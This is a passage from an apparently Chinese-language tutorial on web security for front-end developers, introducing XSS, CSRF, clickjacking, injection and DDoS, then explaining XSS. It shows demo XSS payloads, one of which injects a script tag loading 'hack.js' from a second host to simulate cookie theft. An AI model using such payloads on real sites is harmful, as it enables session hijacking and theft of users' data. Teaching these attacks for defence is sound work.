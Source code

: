 # 网络安全

> 前端不需要过硬的网络安全方面的知识,但是能够了解大多数的网络安全,并且可以进行简单的防御前两三个是需要的

**介绍一下常见的安全问题,解决方式,和小的Demo,希望大家喜欢**

## 网络安全汇总

* XSS

* CSRF
* 点击劫持
* SQL注入
* OS注入
* 请求劫持
* DDOS

**在我看来,前端可以了解并且防御前4个就可以了(小声逼逼:大佬当我没说)**

## XSS

Cross Site Scripting 又叫做跨站脚本攻击,本身应该叫做CSS,但是由于CSS被占用,无奈下叫做XSS

### what is XSS?

我们先从字面意义上看一下,跨站->顾名思义就是我们从一个网站跑到了另外一个网站上,脚本->也就是我们往页面中写了脚本内容,可以理解为写了js代码,那么最后我们对网站造成了攻击

例如: 我们在登录了一个网站之后,一般都会把登录状态保存在cookie中,当我们去访问另外一个网站的时候,就会读取到cookie

### XSS危害

* 利⽤虚假输⼊表单骗取⽤户个⼈信息。

* 利⽤脚本窃取⽤户的Cookie值，被害者在不知情的情况下，帮助攻击者发送恶意请求。

* 显示伪造的⽂章或图⽚。

### 简单演示

```js
// 普通
http://localhost:3000/?from=china
// alert尝试
http://localhost:3000/?from=<script>alert(3)</script>
// 如果可以弹出3,证明这个输入框没有过滤html标记
```

模拟获取cookie

```js
http://localhost:3000/?from=<script src="http://localhost:4000/hack.js">
```

后台代码
